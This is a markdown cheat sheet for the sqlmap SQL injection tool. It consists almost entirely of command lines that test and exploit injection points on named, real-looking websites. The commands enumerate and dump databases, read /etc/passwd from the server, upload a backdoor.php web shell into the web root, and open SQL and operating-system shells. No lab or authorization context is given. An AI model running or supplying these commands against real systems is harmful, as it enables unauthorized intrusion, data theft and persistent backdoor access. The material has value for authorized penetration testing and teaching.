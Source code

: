 # SqlMap Quick CheatSheet


__URL WRITING__

__Single URL__
```console
sqlmap -u http://signisasia.net/books/view?id=1 --dbs
```

__Request in File___

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r request.txt
```


__Request in File(inject only username parameter)__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r req.txt -p username
```


__Testing a pattern of URL's__

-cIf we have test for a URL scheme injection like 

```console
http://signisasia.net/books/1/view
http://signisasia.net/books/2/view
http://signisasia.net/books/3/view
```

- The following URL's can be used to test all the URL's

```console
sqlmap -u http://signisasia.net/books/*/view --dbs
```

__[Post injection Direcltly]__
```console
sqlmap -u http://imranparray.com/login.php --data "username=imx&pass=imx100&submit=Submit" -p username

> --data is the post data send in the request
> -p is the injection point.
```




__Using Cookies__
```console
sqlmap -u http://imranparray.com/welcom.php --cookie="PHPSESSID=adsaasd56454a6s54d54" -u http://imranparray.com/welcome/functionality.php?id=100
```




## Exploitation


__Extract Databases__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 --dbs 	
```
__Extract Tables from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database --tables
```

__Extract Columns of table_name from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name --columns
```

__Dumping Data__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name -C colum1,column2,clumn3 --dump
```





## Speeding Up The process

__Multithreading__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --threads 5
```


__Null-Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --null-connection
```

__HTTP Persistant Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --keep-alive
```

__Output prediction__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 -D database -T user -c users,password --dump --predict-output
```



## File Privileges

__[Checking privilages]__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --privileges
```

__Reading Files from the server__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-read=/etc/passwd
```

__Uploading Files/Shell__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-write=/root/imxx/backdoor.php --file-dest=/var/www/imran.php
```








## Getting Shells


__Sql Shell__

```console
sqlmap -u http://imranparray.com/login.php?id=100 --sql-shell
```

__OS shell__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-shell
```

__Os Command Exe without Shell Upload__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-cmd "uanme -a"
```

__Using Proxy__
```console
sqlmap --proxy="127.0.0.1:8888" -u https://imranparray.com/home.php?id=12 --dbs
```
